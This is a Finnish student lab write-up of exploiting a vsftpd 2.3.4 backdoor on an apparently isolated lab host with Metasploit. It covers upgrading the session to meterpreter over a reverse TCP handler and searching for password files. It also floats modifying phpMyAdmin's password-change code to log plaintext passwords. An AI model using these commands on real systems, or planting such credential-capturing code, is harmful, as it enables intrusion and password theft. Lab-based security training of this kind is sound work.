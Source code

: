     Hosts
    =====
    
    address         mac                name  os_name  os_flavor  os_sp  purpose  info  comments
    -------         ---                ----  -------  ---------  -----  -------  ----  --------
    192.168.56.102  08:00:27:20:83:59        Linux               2.6.X  server
    
Nyt pystyin valitsemaan sen hyökkäyksen kohteeksi

    setg RHOSTS 192.168.56.102

Tämän jälkeen heitin tikan tauluun ja toivoin parasta.

<img width="808" height="718" alt="image" src="https://github.com/user-attachments/assets/7efad937-e7b3-43cc-9a26-332748c75a7b" />

    
Kuten näkyy, hyökkäys onnistui. 

### h) Session päivitys meterpreteriin

Heitin kyseisen session lepoon ctrl+z komennolla. Muistin tunnilta, että päivittäminen oli yllättävän helppoa, joten lähdin selvittämään sitä sessions -h komennolla. Täältä löytyikin -u parametri, jolla voisi ainaskin yrittää session päivittämistä.
    
    msf exploit(unix/ftp/vsftpd_234_backdoor) > sessions -u 1
    [*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]
    [*] Upgrading session ID: 1
    [*] Starting exploit/multi/handler
    [*] Started reverse TCP handler on 192.168.56.101:4433 
    [*] Sending stage (1062760 bytes) to 192.168.56.102
    [*] Command stager progress: 100.00% (773/773 bytes)
    
Sähläsin jotain näppäimistöllä ja jotain meni pieleen. Poistin saadun session 2 ja runasin komennoin uudestaan.    
    
<img width="802" height="510" alt="image" src="https://github.com/user-attachments/assets/7497c91d-4679-4f66-ad67-b04de1bc25c8" />
    
Session päivittäminen onnistui meterpreteriin.
### i) Lateral movement
Tämä oli vähän sekava kohta. Itsellenni tuli mieleen, että voisin lähteä etsimään järjestelmästä salasana tiedostoja jos sieltä löytyisi jotain kivaa.

    search -f *pass*
ja sieltä tuli iso lista tiedostoja ja lähdin sitten lukemaan niistä muutamaan mielenkiintoisemman. Löysinkin tiedoston tästä sijainnista */var/www/phpMyAdmin/user_password.php*. Nopean googlauksen avulla selvisi, että kyseessä on open-source softa, jonka avulla MySQL tietokantoja voi hallita netin kautta. Katsoin koodia ja ymmärsin sen, että kyseessä on koodi, jonka avulla kyseisen palvelun käyttäjien salasanan vaihtaminen toimii. En ole mikään koodi expertti, joten kysyin ChatGPT tekoälyltä mitä kyseinen koodinpätkä tekee. Chatgpt tuli kanssani samaan johtopäätökseen, että mihin koodi oli tarkoitettu. Mieleeni pamahtikin idea, että entä jos koodia pystyisi muokkaamaan jollain tavalla. Esimerkiksi siten, että salasana tallennetaakin myös x sijaintiin plain textina tai jotain muuta sellaista, jolla saadaan käyttäjien salasanoja. On hyvin todennäköistä että käyttäjällä on sama käyttäjätunnus sekä salasana käytössä muuallakin. Tämä olisi periaatteessa mahdollista, jos minulla olisi root oikeudet. Varmaan helpompiakin tapoja olisi saada lateral movementia, kuin muokata x palvelun salasananvaihtosivun lähdekoodia. 
